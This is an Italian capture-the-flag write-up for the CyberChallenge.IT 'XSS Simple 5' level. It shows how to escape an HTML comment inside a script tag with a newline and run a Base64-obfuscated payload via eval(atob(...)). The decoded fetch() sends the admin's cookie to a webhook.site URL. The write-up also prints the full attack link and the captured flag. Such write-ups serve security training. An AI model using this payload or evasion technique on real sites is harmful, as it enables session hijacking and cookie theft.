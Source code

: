 # Writeup: WS_3.05 - XSS Simple 5

**Descrizione**  
Siamo al quinto e ultimo livello della serie di challenge **XSS Simple**. In questa sfida, l’input fornito viene inserito all’interno di un blocco `<script>`, circondato da un commento multilinea (`<!-- ... -->`) e con una parte di testo che fa da contesto (`document.write('Hello world!'); // yep, we have reflection here. What can you do?`). L’obiettivo rimane ottenere il cookie dell’admin inviando un link “malevolo” tramite il form di “report”.

---

## Analisi del Codice Riflesso

Quando forniamo un parametro `?html=...`, il sito produce un output del tipo:
```html
<script><!--document.write('Hello world!'); // yep, we have reflection here. What can you do? <IL_NOSTRO_INPUT>--></script>
```
Questo significa che il nostro input finisce dentro un commento HTML (`<!-- ... -->`) all’interno di `<script>`. Se inseriamo semplicemente del codice JavaScript, rimarrebbe commentato e non verrebbe eseguito.

---

## Strategia di Evasione

1. **Interrompere il commento**: Possiamo utilizzare un carattere di nuova linea (`%0A`) per andare a capo e “chiudere” il commento, consentendo di inserire del codice eseguibile.
2. **Eseguire JavaScript**: Una volta fuori dal commento, possiamo utilizzare `eval(atob(...))` per decodificare in Base64 un payload che esegue un `fetch()` o simile.

### Esempio di Payload
```text
%0Aeval(atob('ZmV0Y2goYGh0dHBzOi8vd2ViaG9vay5zaXRlL2RlYTcwNTliLTIzNTgtNGE3Ni05NDQ1LWRmMmNlODUwN2Y2ZD9jb29raWU9JHtkb2N1bWVudC5jb29raWV9YCk7'));%0A
```
- **`%0A`**: Va a capo e chiude il commento `<!--`.
- **`eval(atob('...'))`**: Decodifica e esegue il JavaScript in Base64.
- **Codice Decodificato**: `fetch('https://webhook.site/dea7059b-2358-4a76-9445-df2ce8507f6d?cookie=${document.cookie}')`.

---

## Invio del Payload

Generiamo un link da passare nel form di “report”:
```
http://xss5.challs.cyberchallenge.it/?html=%0Aeval(atob('ZmV0Y2goYGh0dHBzOi8vd2ViaG9vay5zaXRlL2RlYTcwNTliLTIzNTgtNGE3Ni05NDQ1LWRmMmNlODUwN2Y2ZD9jb29raWU9JHtkb2N1bWVudC5jb29raWV9YCk7'));%0A
```
Quando l’admin carica il link, la porzione dopo `-->` (ottenuta grazie a `%0A`) viene eseguita come JavaScript, e il cookie dell’admin (contenente la flag) viene inviato al nostro endpoint (Webhook.site).

---

## Flag

Controllando il webhook, riceviamo la flag:

```
CCIT{b3535b8581413dead284efc6a5d1813a}
```

---

## Lezioni Apprese

1. **Uscita dal Commento**: Un commento HTML aperto in uno `<script>` può essere chiuso usando newline o altre tecniche, rendendo possibile l’esecuzione di codice.
2. **Base64**: `eval(atob(...))` continua a essere un metodo efficace per aggirare i filtri che cercano parole chiave JavaScript.
3. **Flessibilità dei Caratteri di Controllo**: Caratteri come `%0A` (newline) o `%0D` (carriage return) sono fondamentali per manipolare l’HTML/JS generato dal server.

---

